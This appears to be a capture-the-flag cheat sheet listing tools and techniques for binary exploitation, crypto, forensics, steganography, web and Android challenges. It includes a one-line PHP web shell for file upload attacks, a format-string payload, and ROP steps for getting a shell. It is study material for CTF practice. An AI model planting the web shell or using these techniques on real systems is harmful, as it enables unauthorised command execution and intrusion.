 # CTF

##  ► pwn
### Initial checks
- file
- strings
- checksec

### Things to keep in mind
- fgets() means you can use null bytes in your payload but not newlines
- newline is required at the end of your payload to cause the binary to process your input
- passing arguments
  1. _64 bit_ : first four arguments rdi, rsi, rdx, rcx
  2. _32 bit_ : push arguments on to the stack (include them in the payload)

### pwntools

Setting up ``` pwn template ./<binary> --host 127.0.0.1 --port 1337 ```

Debug with gdb ``` io = gdb.debug('./<binary>', 'b main') ```

### Return Oriented Programming

#### Try out ROP Emporium: https://ropemporium.com/

#### Finding gadgets

``` ROPgadget --binary file_name > gadgets.txt ```

``` ROPgadget --ropchain --binary file_name > exploit.py ```

- https://github.com/sashs/Ropper
- https://github.com/salls/angrop

#### Getting a shell

- use a call to system() by passing only one argument (something like "ls" or "cat flag.txt")
- use syscall(59) to call to execve() by passing three arguments ('/bin/sh', NULL,NULL)

#### Writing to memory

1. look for gadgets like ``` mov [reg], reg ``` (alternatively use something like ```fgets```)
2. look for places to write to using ``` readelf -S <binary> ``` or ``` rabin2 -S <binary> ```
   (don't forget to consider the size)
3. write the string to the address using the gadget found in step 1.
4. call system() with address of the written string.

#### Finding function addresses

``` nm <binary> | grep ' t ' ```

``` (gdb) info functions ```

#### Lazy Binding: https://ropemporium.com/guide.html

### Format String Attacks

Offset notation ``` %6$x ```

#### Reading from an arbritrary address
1. Get address of string to be read. ``` rabin2 -z <binary> ```
2. Find the offset from the stack where the input is stored to do this %x. then %x.%x. then %x.%x.%x. and so on until you     see the ascii values 25782e.
3. once you know the offset, store the address to be read at that
   offset by typing it in as the first thing in the buffer and then
   use the offset you found out to go read in that address.
```
python -c 'print "\xef\xbe\xad\xde%6$s"' | ./<binary>
```

## ► crypto

#### Try out Cryptopals: https://cryptopals.com/

### RSA

- if ```n``` is given, try checking if it is already factored at http://factordb.com
- use Crypto.Util.number inverse to find modular inverse for RSA
- use RsaCtfTool to perform known attacks against RSA

### AES
- use this tool to decrypt AES encrypted files: http://aes.online-domain-tools.com/


## ► forensics
### Initial checks

- xxd
- file
- strings
- binwalk
- foremost
- johntheripper
- [cryptograms](https://quipqiup.com/)

### Steganography

- exiftool
- strings
- steghide (try blank password)
- stegcracker
- stegdetect (JPG)
- zbarimg/zbarcam (QR-codes)
- stegoveritas
- stegsnow

- pngcheck
- Stegsolve
- jsteg (JPG LSB)
- zsteg (PNG LSB)
- tweakpng
- lsb.py

reverse image serach: http://www.tineye.com
$ compare chall.png maxresdefault.jpg  -compose src diff.png
$ pngcheck chall.png

some string-fu
$ binwalk -e chall.png
$ strings chall.png
$ strings -el chall.png
$ strings chall.jpeg | awk 'length($0)>15' | sort -u


### Audio

- audacity
- deepsound
- sonic visualizer
- [morse code](https://morsecode.scphillips.com/translator.html)

### Filesystems

- mount
- testdisk
- volatility
- extundelete

### PCAP

- wireshark
- packettotal

## ► web

### File upload vulnerabilities

#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### SQL Injection

- Portswigger's cheat sheet

### XSS

- Portswigger's cheat sheet

## ► android

### adb

Connect your Android device in debug mode.

Installing an app ``` adb install asdf.apk ```

Uninstalling an app ``` adb uninstall com.abhay.asdf ```

View logs ``` adb logcat ```

Copy files to device ``` adb push /machine /mobile ```

List all packages on device ``` adb shell pm list packages ```

Copy files from device ``` adb pull /data/app/asdf.apk /machine ```

### apktool

Disassemble an app ``` apktool d <apk-file> ```

Build a disassembled file ``` apktool b <decompiled-directory> ```

Sign the built app

```
keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore my_application.apk alias_name
```

### jadx

Decompile an app ``` jadx-gui <apk-file> ```

